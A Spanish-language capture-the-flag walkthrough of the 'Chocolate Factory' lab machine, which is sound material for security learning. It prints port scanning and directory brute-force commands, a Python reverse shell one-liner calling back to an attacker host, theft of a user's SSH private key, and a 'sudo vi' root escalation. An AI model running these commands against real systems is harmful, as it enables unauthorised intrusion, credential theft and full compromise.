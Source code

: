 ```yaml
---
description: // Tutorial //
---
```


# Chocolate Factory

<figure><img src="../../../.gitbook/assets/image (24).png" alt="" width="375"><figcaption></figcaption></figure>

Identificamos los puertos abiertos de la maquina victima

```
nmap IP -Pn -p- -v -n --min-rate 3000
```

<figure><img src="../../../.gitbook/assets/image (27).png" alt="" width="332"><figcaption></figcaption></figure>

Hacemos una fuerza bruta de los directorios y ficheros del dominio y nos encontramos con un login index.html y una pagina para donde hay un input para ejecutar comandos home.php, vamos a ir a esta ultima:&#x20;

```
gobuster dir -u http://IP:80/ -w DICTIONARY -x .php,.txt,.html
```

<figure><img src="../../../.gitbook/assets/image (26).png" alt="" width="563"><figcaption></figcaption></figure>

Subimos comando para una revershell con python y nos ponemos en escucha por el puerto configurado en nuestra maquina atacante&#x20;

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP-MAQUINA",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```
nc -lvp 4444
```

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

A continuacion, abrimos una shell interactiva

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
^Z
stty raw -echo; fg
export TERM=xterm
```

Dentro de la carpeta /var/www/html llama la atencion el fichero key\_rev\_key, si filtramos por string el fichero podemos observar la primea key

<figure><img src="../../../.gitbook/assets/image (29).png" alt="" width="313"><figcaption></figcaption></figure>

Navegando por los directorios nos encontramos con un fichero donde se encuntra la clave publica y privada de ssh del usuario charlie&#x20;

```
cat /home/charlie/teleport
cat /home/charlie/teleport.pub
```

Ahora que tenemos el usuario y la clave privada accedemos a traves de ssh al usuario charlie&#x20;

```
chmod 600 id_rsa 
ssh -i id_rsa charlie@IP_victima
```

Accedemos a la flag de usuario

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

Podemos ver la password de charlie en el fichero validate.php

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

### Escalada de privilegios

```
Sudo -l
```

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Buscamos informacion en GTFO sobre la escalad de privilegios con vi

```
sudo vi -c ':!/bin/sh' /dev/null
```

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Introducimos la flag que nos encontramos en el script de pyhton para sacar la flag de root

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>


